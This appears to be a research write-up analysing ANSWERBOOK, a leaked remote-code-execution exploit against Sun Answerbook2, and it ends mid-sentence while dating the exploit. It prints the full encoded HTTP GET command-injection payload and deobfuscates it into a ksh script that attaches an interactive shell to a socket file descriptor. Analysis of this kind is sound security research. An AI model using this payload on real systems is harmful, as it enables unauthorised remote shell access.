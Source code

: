 [STOIC SURGEON](https://CybernetiX-S3C.github.io/main/stoicsurgeon)
[RESEARCH](https://CybernetiX-S3C.github.io/main/stoicsurgeon/research)
[CONTRIBUTING](https://CybernetiX-S3C.github.io/main/stoicsurgeon/contrib)
[ABOUT](https://CybernetiX-S3C.github.io/main/stoicsurgeon/about)

# ANSWERBOOK

ANSWERBOOK is an RCE exploit for Sun Answerbook2. Given the software and the opsnotes, it's likely that this exploit was used around 2000-2005.

According to [abopscript.txt](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/abopscript.txt) it will trigger a shell using the following HTTP GET command:
```
GET /ab2/@LegacyPageView?ps=`echo%20"\%0A(/bin/ksh<<\%2B%0As=63%0Awhile%20[%20ABC%20-gt%208%20]%0Ado%0A[[%20-S%20/dev/fd/ABC%20]]%20%26%26%20break%0A((s=ABC-1))%0Adone%0A[%20ABC%20-gt%208%20]%20%26%26%20exec%20sh%20-i%20</dev/fd/ABC%20>%20/dev/fd/ABC%202>%261%20%26%0A%2B%0A)2>/dev/null%26%0A"%20|%20sed%20's/ABC/$s/g'%20|%20sh` HTTP/1.0
```

Cleaning up the command a bit:
```
echo "\
(/bin/ksh<<\+
s=63
while [ ABC -gt 8 ]
do
[[ -S /dev/fd/ABC ]] && break
((s=ABC-1))
done
[ ABC -gt 8 ] && exec sh -i </dev/fd/ABC > /dev/fd/ABC 2>&1 &
+
)2>/dev/null&
" | sed 's/ABC/$s/g' | sh
```

Cleaning it even more, it runs this command using `sh`:
```
(/bin/ksh<<\+
	s=63
	while [ $s -gt 8 ]
	do
		[[ -S /dev/fd/$s ]] && break
		((s=$s-1))
	done
	[ $s -gt 8 ] && exec sh -i </dev/fd/$s > /dev/fd/$s 2>&1 &
+
)2>/dev/null &
```

The `<<\+` until the `+` is a HEREDOC, essentially executing the commands with `/bin/ksh`. It will find a find a filedescriptor (bigger than 8) that is a socket and redirect the input and output to a shell, giving the Operator a shell.

## Reason for 2000-2005

Above, I vaguely mention that according to the opsnotes and software, the exploit was used in the period of 2000-2005. The reasons for this are:

* `/tmp/.X11R6`: as "work" folder for an Operation.
* The use of nosy
